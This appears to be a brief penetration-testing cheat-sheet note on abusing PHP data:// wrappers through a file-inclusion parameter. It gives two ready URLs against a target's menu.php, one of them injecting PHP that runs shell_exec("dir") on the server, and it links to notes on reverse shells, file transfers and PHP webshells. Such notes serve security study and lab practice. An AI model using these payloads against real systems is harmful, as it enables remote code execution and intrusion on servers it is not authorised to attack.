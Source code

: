 #### Wrappers

```bash
http://$TARGET/menu.php?file=data:text/plain,hello world
```

```bash
http://$TARGET/menu.php?file=data:text/plain,<?php echo shell_exec("dir") ?>
```

![[rlwrap]]

[[1._Reverse Shells (WIN)#MSFVenom]]

[[4._File Transfers]]

---

[[0._PHP_Webshells#PHP]]